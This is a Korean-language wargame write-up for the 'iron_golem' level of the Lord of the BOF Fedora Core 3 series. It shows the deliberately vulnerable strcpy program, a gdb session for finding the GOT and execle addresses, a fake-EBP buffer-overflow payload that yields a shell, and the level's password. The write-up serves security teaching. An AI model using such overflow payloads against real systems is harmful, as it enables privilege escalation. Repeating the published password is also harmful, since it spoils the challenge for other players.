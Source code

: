 # FC3 - iron_golem

```c
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- iron_golem
	- Local BOF on Fedora Core 3 
	- hint : fake ebp
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

Iron golem 문제는 인자를 받아서 buffer에 복사한 뒤에 출력해주는 코드가 들어가 있다. 

문제를 풀기 위해서는 어떤 조건이 걸려있는지 알아야하는데 귀찮게 구하지 않아도 되게 LOB의 모든 FC3 문제는 같은 보호기법이 걸려있음을 알고 시작한다. 다음은 걸려있는 보호기법이다.

- stack dummy
- down privileage of bash
- random stack
- ascii armor
- non-executable stack
- non-executable heap



ASLR이 걸려있으므로 주소가 변하지 않는 bss나 got같은 부분을 이용해야한다. 

많이 사용하는 got과 execle함수를 이용해서 fake ebp기법을 쓴다.

먼저 got와 execle함수의 주소를 찾는다. 

```bash
[gate@Fedora_1stFloor ~]$ gdb -q iron_golem
(no debugging symbols found)...Using host libthread_db library "/lib/tls/libthread_db.so.1".
(gdb) b*main
Breakpoint 1 at 0x80483d0
(gdb) r
Starting program: /home/gate/iron_golem 
(no debugging symbols found)...(no debugging symbols found)...
Breakpoint 1, 0x080483d0 in main ()
(gdb) shell readelf -a iron_golem | grep 'got'
  [20] .got              PROGBITS        08049614 000614 000004 04  WA  0   0  4
  [21] .got.plt          PROGBITS        08049618 000618 00001c 04  WA  0   0  4
   03     .ctors .dtors .jcr .dynamic .got .got.plt .data .bss 
(gdb) x/a 0x08049614
0x8049614 <_DYNAMIC+200>:	0x0
(gdb) 
0x8049618 <_GLOBAL_OFFSET_TABLE_>:	0x804954c <_DYNAMIC>
(gdb) x/a 0x804954c
0x804954c <_DYNAMIC>:	0x1
(gdb) p execle
$1 = {<text variable, no debug info>} 0x7a5610 <execle>
```

gdb를 이용해 got의 위치를 구해보면 0x08049614의 위치에 0x0804954c이라는 주소가 있고 거기에는 0x01이라는 값이 들어있다. 이 값을 이름으로 하는 파일을 하나 만들고 sfp를 got으로 ret을 execle의 주소로 덮어주면 ebp의 주소가 바뀌어서 execle("0x01");이 실행된다.

```sh
[gate@Fedora_1stFloor ~]$ ./iron_golem `python -c 'print "a"*264+"\x10\x96\x04\x08"+"\x23\x57\x7a\x00"'`
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa#Wz
sh-3.00$ ls
ls: .: Permission denied
sh-3.00$ id
uid=501(iron_golem) gid=500(gate) groups=500(gate) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 501
blood on the fedora
```

iron_golem의 pw는 'blood on the fedora'이다.